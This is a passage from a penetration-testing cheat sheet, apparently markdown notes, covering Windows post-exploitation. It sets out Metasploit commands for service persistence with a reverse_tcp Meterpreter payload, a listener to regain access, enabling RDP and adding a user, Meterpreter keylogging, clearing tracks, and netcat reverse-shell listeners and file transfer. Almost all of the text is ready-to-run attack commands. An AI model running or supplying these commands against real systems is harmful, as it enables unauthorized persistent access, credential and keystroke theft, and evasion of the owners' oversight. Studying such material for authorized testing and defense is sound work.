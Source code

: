 #### [**Feature Abuse**](readme/network-security-3/network-security/2.1.md)

#### [GPO Abuse](readme/network-security-3/network-security/5.1.3-gpo-abuse.md)

## **Persistence**

```bash
# Administrative Privileges required!

# RDP - Meterpreter
background

use exploit/windows/local/persistence_service
#or search platform:windows persistence
set payload windows/meterpreter/reverse_tcp
set SESSION 1

# Regain access
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_IP>
set LPORT <LOCAL_PORT>

# Enabling RDP
use post/windows/manage/enable_rdp
sessions
set SESSION 1

# Meterpreter - Enable RDP
run getgui -e -u <NEWUSER> -p <PW>
```

```bash
# KEYLOGGING - Meterpreter
keyscan_start
keyscan_dump
keyscan_stop
```

**Clearing tracks**

```bash
# Meterpreter
clearenv
```

## **Shells**

```bash
# NETCAT - Install
sudo apt update && sudo apt install -y netcat
# or upload the nc.exe on the target machine

nc <TARGET_IP> <TARGET_PORT>
nc -nv <TARGET_IP> <TARGET_PORT>
nc -nvu <TARGET_IP> <TARGET_UDP_PORT>

## NC Listener
nc -nvlp <LOCAL_PORT>
nc -nvlup <LOCAL_UDP_PORT>

## Transfer files
# Target machine
nc.exe -nvlp <PORT> > test.txt
```